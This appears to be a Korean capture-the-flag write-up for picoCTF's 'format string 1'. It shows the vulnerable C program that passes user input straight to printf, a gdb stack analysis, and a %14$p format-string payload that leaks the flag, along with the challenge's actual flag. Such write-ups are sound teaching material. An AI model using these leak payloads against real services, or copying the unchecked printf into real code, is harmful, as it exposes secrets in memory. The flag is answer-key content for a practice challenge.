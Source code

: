 # [format string 1](https://play.picoctf.org/practice/challenge/434?category=6&difficulty=2&originalEvent=73&page=1)

## 목차
- [Description](#Description)
- [Exploitation](#Exploitation)
- [FLAG](#FLAG)


## Description
> Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!
<br />

**Source Code:**
```c
#include <stdio.h>

int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];

  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}

```
<br />

## Exploitation
```bash
$ cat secret-menu-item-1.txt
BBBBBBBB
$ cat flag.txt
pico{this_is_flag}
$ cat secret-menu-item-2.txt
AAAAAAAA
```
위 텍스트 파일 3개를 새로 생성한 후, gdb로 분석하겠습니다.

```yaml
pwndbg> b *main+275
Breakpoint 1 at 0x401309
pwndbg> r
...
Give me your order and I'll read it back to you:
CCCCCCCC
```
`main+275`에 `break` 후 `r`을 하빈다. 입력 값은 `CCCCCCCC`이고, 실행 직후 스택을 확인 해보겠습니다.
```yaml
pwndbg> x/30gx $rsp
0x7fffffffdb60: 0x4141414141414141      0x00007fffffff000a
0x7fffffffdb70: 0x00007fffffffdbb4      0x00007ffff7dcd600
0x7fffffffdb80: 0x00007ffff7fbf6c0      0x0000000000000003
0x7fffffffdb90: 0x00007fff00000000      0x00007ffff7ffe6b0
0x7fffffffdba0: 0x6968747b6f636970      0x616c665f73695f73
0x7fffffffdbb0: 0x00000000000a7d67      0x0000000000000000
0x7fffffffdbc0: 0x0000000000000000      0x00007fffffffdd50
0x7fffffffdbd0: 0x00007ffff7ffe6b0      0x00007ffff7ff287a
0x7fffffffdbe0: 0x4242424242424242      0x00007fffffff000a
0x7fffffffdbf0: 0x000000003de00ec7      0x00007ffff7fd111c
0x7fffffffdc00: 0x0000000000000001      0x00007fffffffdd50
0x7fffffffdc10: 0x0000000000000000      0x0000000000000000
0x7fffffffdc20: 0x4343434343434343      0x00007ffff7ffe300
0x7fffffffdc30: 0x00007ffff7ffe310      0x00007ffff7dd6cd8
0x7fffffffdc40: 0x00007fffffffdc90      0x00007ffff7ffe6b0
```
위에서부터 `0x7fffffffdb60`은 secret1, `0x7fffffffdba0`은 flag, `0x7fffffffdbe0`은 secret2 마지막으로 `0x7fffffffdc20`은 buf 입니다. 따라서 포맷스트링 인자 기준 flag의 오프셋은 14 입니다.
> [!NOTE]
포맷스트링 인자는 출력될 때, `rsi`, `rcx`, `rdx`, `r8`, `r9`, `rsp`, `rsp+8`, `rsp+0x10`, ... 순으로 출력이 됩니다. 따라서 flag의 오프셋은 14인 것입니다.

```bash
$ ./format-string-1
Give me your order and I'll read it back to you:
%14$p|%15$p|%16$p
Here's your order: 0x6968747b6f636970|0x616c665f73695f73|0xa7d67
Bye!
```
출력된 결과를 파이썬 자동화를 통해 아스키로 바꿔보겠습니다.

```python
$ cat test.py
data = "0x6968747b6f636970|0x616c665f73695f73|0xa7d67"
data = data.split("|")

res = ""
for p in data:
    if p.startswith("0x"):
        hex_str = p[2:]
        if len(hex_str) % 2 != 0:
            hex_str = "0" + hex_str
        ascii_str = bytes.fromhex(hex_str)[::-1].decode("latin1", errors="ignore")
        res += ascii_str

print(res)
```
```bash
$ python3 test.py
pico{this_is_flag}
```

<br />

## FLAG
```bash
$ nc mimas.picoctf.net 63454
Give me your order and I'll read it back to you:
%14$p|%15$p|%16$p|%17$p|%18$p
Here's your order: 0x7b4654436f636970|0x355f31346d316e34|0x3478345f33317937|0x34365f673431665f|0x7d363131373732
Bye!
```
```bash
$ python3 test.py
picoCTF{4n1m41_57y13_4x4_f14g_64277116}
```
